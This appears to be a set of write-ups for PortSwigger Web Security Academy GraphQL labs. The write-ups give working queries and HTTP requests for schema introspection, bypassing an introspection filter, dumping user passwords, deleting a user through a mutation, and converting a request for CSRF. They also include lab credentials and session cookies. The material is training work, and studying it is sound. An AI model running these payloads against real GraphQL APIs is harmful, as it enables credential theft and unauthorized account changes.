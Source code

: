 ## Accessing private GraphQL posts
[Accessing private GraphQL posts](https://portswigger.net/web-security/graphql/lab-graphql-reading-private-posts)

Write-up: 
1. We need to get the password of the hidden blog post. Intercepting the request to / shows us a POST request to /graphql/v1:
   
    ```json
    {"query":"\nquery getBlogSummaries {\n    getAllBlogPosts {\n        image\n        title\n        summary\n        id\n    }\n}","operationName":"getBlogSummaries"}
    ```

    We can see by the response to this request that the post with id=3 isn't being displayed.

2. Using introspection, we can find more about the schema:

    ```json
    {"query": "query { __schema { types { name fields { name } } } }"}
    ```

    We discover a getBlogPost query, as well as a postPassword field.

3. To find out more about the getBlogPost query, we use:

    ```json
    {
        "query": "query { __type(name: \"query\") { fields { name args { name type { kind name ofType { kind name } } } type { kind name ofType { kind name } } } } }"
    }
    ```

4. Using the new information we got, we can craft a request to get us the missing post:

    ```json
    {
        "query": "query getBlogPostById($id: Int!) { getBlogPost(id: $id) { image title summary id postPassword } }",
        "operationName": "getBlogPostById",
        "variables": { "id": 3 }
    }
    ```

    This reveals the password: **l58w5rj7y2lqog9oqpgautmrocsirx7r**

## Accidental exposure of private GraphQL fields
[Accidental exposure of private GraphQL fields](https://portswigger.net/web-security/graphql/lab-graphql-accidental-field-exposure)

Write-up:

1. Using introspection, we can find more about the schema:

    ```json
    {"query": "query { __schema { types { name fields { name } } } }"}
    ```

    We discover a getUser query and a User object.

2. To get more information about User we use:

    ```json
    {"query": "{ __type(name: \"User\") { name fields { name type { name kind ofType { name kind } } } } }"}
    ```

    This shows us User object has id, username and password.

3. To get admin details:

    ```json
    {"query": "query { getUser(id: 1) { id username password } }"}
    ```

    This shows credentials **administrator:6fegsn30pc958nfulcl8**

4. Logging in gives us access to admin panel which allows us to delete user **carlos** and solve the lab.

## Finding a hidden GraphQL endpoint
[Finding a hidden GraphQL endpoint](https://portswigger.net/web-security/graphql/lab-graphql-find-the-endpoint)

Write-up:

1. Attempting to access some common locations for GraphQL endpoints makes us find `/api`,
   which returns a JSON with "Query not present".

2. Attempting to access `/api?query={__schema{queryType{name}}}` returns "GraphQL introspection is not allowed, but the query contained __schema or __type".

3. To bypass, we use `GET /api?query={__schema%0A{types{name,kind,fields{name,type{name,kind}}}}}` and we find a deleteOrganizationUser mutation.

    ```http
    GET /api?query=query%7B__type%0A(name:%22mutation%22)%7Bfields%7Bname%20args%7Bname%20type%7Bname%20kind%20ofType%7Bname%20kind%7D%7D%7D%20type%7Bname%20kind%7D%7D%7D%7D
    ```

    This shows us there are objects called DeleteOrganizationUserInput and DeleteOrganizationUserResponse.

    ```http
    GET /api?query=query%7B__type%0A(name:%22DeleteOrganizationUserInput%22)%7Bname%20kind%20inputFields%7Bname%20type%7Bname%20kind%20ofType%7Bname%20kind%7D%7D%7D%7D%7D
    ```

    We find out that this object takes in the user id as a parameter.

4. We need to find carlos' user id. Iterating from 1 to 3 shows us that carlos has id=3.

    ```http
    GET /api?query=query%7BgetUser(id:3)%7Bid%20username%7D%7D
    ```

5. This payload deletes user carlos and completes the lab:

    ```http
    GET /api?query=mutation%0A%7BdeleteOrganizationUser(input:%7B%20id:3%20%7D)%20%7Buser%20%7Bid%20username%7D%7D%7D
    ```

## Bypassing GraphQL brute force protections
[Bypassing GraphQL brute force protections](https://portswigger.net/web-security/graphql/lab-graphql-brute-force-protection-bypass)

Write-up:

1. We are instructed to brute-force the login. Using `alias-brute-force-login.py` 
   (which uses aliases to bypass rate limiting), we are able to find the credentials
   and solve the lab - **carlos:1234567890**

## Performing CSRF exploits over GraphQL
[Performing CSRF exploits over GraphQL](https://portswigger.net/web-security/graphql/lab-graphql-csrf-via-graphql-api)

Write-up:

1. After logging in, we can use Caido to see the update email request:

    ```http
    POST /graphql/v1 HTTP/1.1
    Host: 0a8000a10490937680fd179b004b00e3.web-security-academy.net
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:141.0) Gecko/20100101 Firefox/141.0
    Accept: application/json
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate, br, zstd
    Referer: https://0a8000a10490937680fd179b004b00e3.web-security-academy.net/my-account?id=wiener
    Content-Type: application/json
    Content-Length: 228
    Origin: https://0a8000a10490937680fd179b004b00e3.web-security-academy.net
    Connection: keep-alive
    Cookie: session=c1CaJ0YeDIINGvc5MzcYcUs2bIUz7mi2; session=c1CaJ0YeDIINGvc5MzcYcUs2bIUz7mi2
    Sec-Fetch-Dest: empty
    Sec-Fetch-Mode: cors
    Sec-Fetch-Site: same-origin
    Priority: u=0

    {
        "query": "\n    mutation changeEmail($input: ChangeEmailInput!) {\n        changeEmail(input: $input) {\n            email\n        }\n    }\n",
        "operationName": "changeEmail",
        "variables": {
            "input": {
                "email": "jpcsousa@outlook.pt"
            }
        }
    }
    ```

2. Attempting to repeat this request with different emails shows us we can reuse the request.

4. We can convert the request to a POST with `Content-Type: application/x-www-form-urlencoded` by changing the headers and URL-encoding the body:

    ```http
    POST /graphql/v1 HTTP/1.1
    Host: 0a8000a10490937680fd179b004b00e3.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 176
    
    query=%0A++++mutation+changeEmail%28%24input%3A+ChangeEmailInput%21%29+%7B%0A++++++++changeEmail%28input%3A+%24input%29+%7B%0A++++++++++++email%0A++++++++%7D%0A++++%7D%0A&operationName=changeEmail&variables=%7B%22input%22%3A%7B%22email%22%3A%22hacker%40hacker.com%22%7D%7D
    ```

5. We create a CSRF PoC HTML file: `csrf-poc.html`

6. Hosting this HTML on the exploit server and delivering it to the victim solves the lab.